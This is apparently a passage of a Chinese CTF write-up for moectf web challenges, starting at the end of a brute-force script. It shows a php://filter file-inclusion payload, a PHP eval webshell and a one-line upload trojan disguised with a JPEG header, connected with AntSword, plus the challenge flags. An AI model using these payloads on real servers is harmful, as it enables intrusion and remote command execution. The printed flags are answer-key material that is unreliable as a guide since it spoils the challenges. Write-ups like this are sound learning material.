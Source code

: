 ```javascript
    
    await new Promise(resolve => setTimeout(resolve, 300));
  }
}

bruteForce();
```

发现`flag.php`，说`flag`就在这里。还有一个`find.php`文件，尝试下文件包含。

```
/find.php?file=php://filter/convert.base64-encode/resource=flag.php
```

用`base64`解码，`flag`在`php`代码注释里。

```
moectf{84fd1e75-647c-3aa4-82b8-1cba2dc45347}
```

## 12 第十二章 玉魄玄关·破妄

> **「吾乃玉魄初主玄微子。后世得见吾之传承者，需破四玄关。」**
> **「首关‘破妄’——勘破虚妄，直抵本真。」**

```php
<?php
highlight_file(__FILE__);
@eval($_POST['cmd']);
```

用蚁剑连接，根目录打开终端输入``env``。

```
moectf{ff560111-86ab-ec12-dee6-084f8d577fb5}
```

## 13 第十三章 通幽关·灵纹诡影

> **「此关禁绝残魂」** 玄微子的声音从齿轮深处传来，**「魔气擅噬神魂，汝需独力破局」**
> **「任务：」**
> **【清秽】净化玉魄核心**
> **【绘真】上传修复灵纹**

题目已经提示了文件头绕过`FFD8FF`。

构造一句话木马`1.php`，并用`01editor`修改文件头。

```php
<?=eval($_POST['cmd']);?>
```

上传后用蚁剑连接`http://127.0.0.1:53111/uploads/1.php`，根目录打开终端输入`env`。

```
moectf{63f59f3f-1a5e-fa6a-782d-58a02b7b3440}
```
